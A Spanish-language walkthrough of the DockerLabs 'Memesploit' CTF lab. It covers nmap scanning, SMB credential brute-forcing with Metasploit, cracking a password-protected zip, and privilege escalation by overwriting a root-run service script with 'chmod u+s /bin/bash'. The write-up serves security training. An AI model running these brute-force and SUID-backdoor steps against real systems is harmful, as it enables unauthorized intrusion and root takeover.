


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SMB` `Metasploit` `Brute Force` `Zip Cracking` `Sudoers` `Service Abuse` `Writable File` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip memesploit.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh memesploit.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80,445 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-22 19:54 CET
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b1:4d:aa:b4:22:b4:7c:2e:53:3d:41:69:81:e3:c8:48 (ECDSA)
|_  256 59:16:7a:02:50:bd:8d:b5:06:30:1c:3d:01:e5:bf:81 (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hacker Landing Page
|_http-server-header: Apache/2.4.58 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-11-22T18:54:25
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```

Identificamos los puertos abiertos: `22` (SSH), `80` (HTTP) y `445` (Samba).

Al acceder al puerto `80`, encontramos la página web con el contenido:



Observamos que el texto presenta campos o palabras ocultas.

Mediante la inspección del código fuente de la página, recuperamos las siguientes cadenas de texto ocultas: `fuerzabrutasiempre`, `metasploit_ctf` y `memehydra`.



Estas palabras clave sugieren la necesidad de un ataque de `fuerza bruta`, siendo probable que `memehydra` sea un usuario o una contraseña.

Creamos un archivo de `.txt` que contendrá estas tres palabras, el cual utilizaremos como diccionario tanto para el campo de usuario como para el de contraseña en el ataque de `fuerza bruta`.

Inicialmente, intentamos el ataque de `fuerza bruta` contra el puerto `22` (SSH), pero no obtenemos ninguna credencial válida.

## METASPLOIT

A continuación, probamos contra el puerto `445` (Samba), esta vez utilizando `Metasploit`.

```bash
msfconsole
search smb_login
use 0
show options
setg RHOSTS 172.17.0.2
set USER_FILE palabras.txt
set PASS_FILE palabras.txt
set CreateSession true
run
```

Info:

```
msf auxiliary(scanner/smb/smb_login) > run
[*] 172.17.0.2:445        - 172.17.0.2:445 - Starting SMB login bruteforce
[-] 172.17.0.2:445        - 172.17.0.2:445 - Failed: '.\memehydra:memehydra',
[!] 172.17.0.2:445        - No active DB -- Credential data will not be saved!
[-] 172.17.0.2:445        - 172.17.0.2:445 - Failed: '.\memehydra:memesploit_ctf',
[+] 172.17.0.2:445        - 172.17.0.2:445 - Success: '.\memehydra:fuerzabrutasiempre'
[*] SMB session 1 opened (172.17.0.1:41465 -> 172.17.0.2:445) at 2025-11-22 20:36:31 +0100
[+] 172.17.0.2:445        - 172.17.0.2:445 - Success: '.\memesploit_ctf:memehydra'
[*] SMB session 2 opened (172.17.0.1:37647 -> 172.17.0.2:445) at 2025-11-22 20:36:31 +0100
[+] 172.17.0.2:445        - 172.17.0.2:445 - Success: '.\fuerzabrutasiempre:memehydra'
[*] SMB session 3 opened (172.17.0.1:41685 -> 172.17.0.2:445) at 2025-11-22 20:36:31 +0100
[*] 172.17.0.2:445        - Scanned 1 of 1 hosts (100% complete)
[*] 172.17.0.2:445        - Bruteforce completed, 3 credentials were successful.
[*] 172.17.0.2:445        - 3 SMB sessions were opened successfully.
[*] Auxiliary module execution completed
```

Aunque el ataque genera tres `sesiones SMB` en `Metasploit`, solo la primera es la válida, con las credenciales `memehydra` : `fuerzabrutasiempre`. Procedemos a acceder a dicha sesión.

```bash
sessions 1
```

Info:

```
msf auxiliary(scanner/smb/smb_login) > sessions 1
[*] Starting interaction with 1...

SMB (172.17.0.2) >
```

Enumeramos las `shares`.

```bash
shares
```

Info:

```
Shares
======

    #  Name             Type         comment
    -  ----             ----         -------
    0  print$           DISK         Printer Drivers
    1  share_memehydra  DISK
    2  IPC$             IPC|SPECIAL  IPC Service (4bcd01ee6d93 server (Samba, Ubuntu))
```

Identificamos el share llamado `share_memehydra`, al cual accedemos mediante el comando:

```bash
shares -i 1
```

Info:

```
SMB (172.17.0.2) > shares -i 1
[+] Successfully connected to share_memehydra
```

Dentro de esta `share` encontramos el archivo `secreto.zip`, que transferimos a nuestra máquina atacante con el comando:

```bash
download secret.zip
```

Info:

```
SMB (172.17.0.2\share_memehydra) > download secret.zip
[*] Downloaded 224.00 B of 224.00 B (100.0%)
[+] Downloaded secret.zip to secret.zip
```

A continuación, intentamos descomprimir el archivo `.zip`.

```bash
unzip secreto.zip
```

Observamos que se nos pide una contraseña para la descompresión.

Intentamos obtener la clave utilizando el módulo `zip2john` de `John the Ripper` para generar el `hash`.

```bash
zip2john secret.zip > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 DONE (2025-11-22 20:51) 0g/s 2402Kp/s 2402Kc/s 2402KC/s !LUVDKR!..*7¡Vamos!
Session completed
```

Verificamos que este método no es viable en este caso.

Por lo tanto, probamos a utilizar como contraseña las palabras clave que habíamos encontrado previamente: `fuerzabrutasiempre`, `metasploit_ctf` y `memehydra`.

La cadena `metasploit_ctf` resulta ser la contraseña correcta, y descomprimimos el archivo `secreto.zip` con éxito.

Info:

```
unzip secret.zip                                         
Archive:  secret.zip
[secret.zip] secret.txt password: 
password incorrect--reenter: 
  inflating: secret.txt
```

Dentro del archivo comprimido hallamos un fichero llamado `secret.txt`, cuyo contenido leemos:

```
memesploit:metasploitelmejor
```

Obtenemos un nuevo conjunto de credenciales, con las cuales intentaremos autenticarnos en el puerto `22` (SSH).

```bash
ssh memesploit@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for memesploit on 4bcd01ee6d93:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User memesploit may run the following commands on 4bcd01ee6d93:
    (ALL : ALL) NOPASSWD: /usr/sbin/service login_monitor restart
```

Vemos que podemos ejecutar el binario `service` con privilegios de `root` para reiniciar un servicio denominado `login_monitor`.

Procedemos a ejecutarlo para analizar su comportamiento.

```bash
sudo /usr/sbin/service login_monitor restart
```

Info:

```
Stopping login_monitor...
Starting login_monitor...
```

Confirmamos que la única acción que realiza es el reinicio del servicio. A continuación, buscamos la ubicación de los archivos de configuración de este servicio.

```bash
find / -name 'login_monitor' 2>/dev/null
```

Info:

```
/etc/init.d/login_monitor
/etc/login_monitor
```

Navegamos al directorio `/etc/login_monitor`.

```bash
cd /etc/login_monitor
ls -la
```

Info:

```
total 36
drwxrwx--- 2 root security 4096 Aug 31  2024 ./
drwxr-xr-x 1 root root     4096 Nov 22 19:52 ../
-rwxr-xr-x 1 root root      620 Aug 31  2024 actionban.sh*
-rwxr-xr-x 1 root root      472 Aug 31  2024 activity.sh*
-rw-r--r-- 1 root root      200 Aug 31  2024 loggin.conf
-rw-r--r-- 1 root root      224 Aug 31  2024 network.conf
-rwxr-xr-x 1 root root      501 Aug 31  2024 network.sh*
-rw-r--r-- 1 root root      209 Aug 31  2024 security.conf
-rwxr-xr-x 1 root root      488 Aug 31  2024 security.sh*
```

Observamos que este directorio tiene asignado al grupo `security`, grupo al que también pertenece nuestro usuario `memesploit`, lo que podemos aprovechar para inyectar código arbitrario en este servicio y lograr la escalada de privilegios.

Adoptamos un enfoque directo, eliminamos el archivo de script `actionban.sh` y lo volvemos a crear inyectando nuestro código malicioso.

```bash
rm actionban.sh
nano actionban.sh
```

Código:

```
chmod u+s /bin/bash
```

Posteriormente, cerramos la sesión `SSH` y volvemos a iniciarla.

```bash
ssh memesploit@172.17.0.2
```

Una vez dentro, ejecutamos el siguiente comando para obtener una shell de `root`.

```bash
bash -p
```

Info:

```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!
